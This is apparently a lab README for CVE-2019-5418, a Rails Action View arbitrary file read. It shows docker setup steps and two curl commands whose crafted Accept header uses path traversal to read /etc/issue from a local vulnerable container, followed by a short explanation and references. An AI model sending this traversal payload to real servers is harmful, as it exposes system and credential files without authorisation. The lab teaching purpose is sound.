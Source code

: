 # TITLE OF VULN
## Subtitle / what it does
Ruby on Rails - arbitrary file read
Also check its "child" vulnerability not related to Headers - https://github.com/knqyf263/CVE-2019-5420

### Clear any existing containers
```
docker kill $(docker ps -q)
```


### Run in docker:
```
cd 3-ruby-rails
docker run -p 3000:3000 0snug0/cve-2019-5418
```

### Run in docker:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Proxy via Burp:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' --proxy http://127.0.0.1:8080 -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Explanation
There is a File Content Disclosure vulnerability in Action View <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3 where specially crafted accept headers can cause contents of arbitrary files on the target system's filesystem to be exposed.

![image](https://user-images.githubusercontent.com/31791455/140390131-fd85589a-f379-4fb7-b967-e060838742a5.png)
![image](https://user-images.githubusercontent.com/31791455/140390169-a646a665-9b95-4540-8f9b-93f6e6e37709.png)

### References and recommended reading
https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418

### Credits:
https://gist.github.com/ajxchapman/6ed7bf599f29a62cdbab7b6e95eebed9
https://github.com/mpgn/CVE-2019-5418

